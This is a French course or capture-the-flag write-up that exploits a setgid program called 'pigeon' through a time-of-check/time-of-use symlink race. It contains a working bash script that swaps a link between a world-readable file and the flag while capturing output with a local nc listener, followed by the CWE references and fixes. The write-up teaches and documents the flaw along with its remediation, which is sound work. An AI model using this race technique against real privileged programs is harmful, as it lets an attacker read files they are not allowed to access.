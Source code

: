 ### Exploitation

Puisque nous fournissons seulement un chemin au programme mais nous souhaitons faire varier le fichier pendant son exécution, nous aurons recours à un lien symbolique. Nous ferons alterner la cible du lien entre un fichier lisible par tous et le fichier du flag, tout en gardant le même nom. 

```bash
workdir="$(mktemp -d)"
cd "$workdir"
chmod -R a+rx .

function get_free_port () {
    read lower upper < /proc/sys/net/ipv4/ip_local_port_range
    for (( port=lower ; port <= upper ; port++ )); do
            ss -lpn | grep -q ":$port " || break
    done
    echo $port
}

port=$(get_free_port)
end=$((SECONDS+5))  # Boucler 5s

timeout 5 nc -k -l "$port" | grep --line-buffered INF600C &
while [ "$SECONDS" -lt "$end" ]; do ln -sf /quetes/02-sys/04-pigeon/flag.txt lien; ln -sf /etc/hostname lien; done &
while [ "$SECONDS" -lt "$end" ]; do /quetes/02-sys/04-pigeon/pigeon "$PWD/lien" 127.0.0.1 "$port" > /dev/null; done &
```

### CWEs

- CWE-367: Time-of-check Time-of-use
- CWE-61: UNIX Symbolic Link Following

### Correction

1. Pour adresser le problème du TOCTOU, il faut éviter de vérifier l'accès au fichier avec un `access` avant de faire l'ouverture. Il faut plutôt abandonner les droits *setgid* puis faire l'ouverture du fichier en tant que l'utilisateur. Le système d'exploitation fera la vérification des droits pour nous. On peut alors gérer l'erreur si elle a lieu.
2. Pour adresser la faiblesse du lien suivi, il faut passer l'option `O_NOFOLLOW` lors de l'ouverture du fichier.

# Writeups d'Hunert Hackin'

Vous pouvez également jeter un coup d'oeil aux [writeups d'*Hubert Hackin*](https://huberthackin.gitlab.io/posts/). Ils ne sont pas écrits en fonction du cours mais ce sont néanmoins des writeups complets qui peuvent vous guider dans l'écriture des votres.

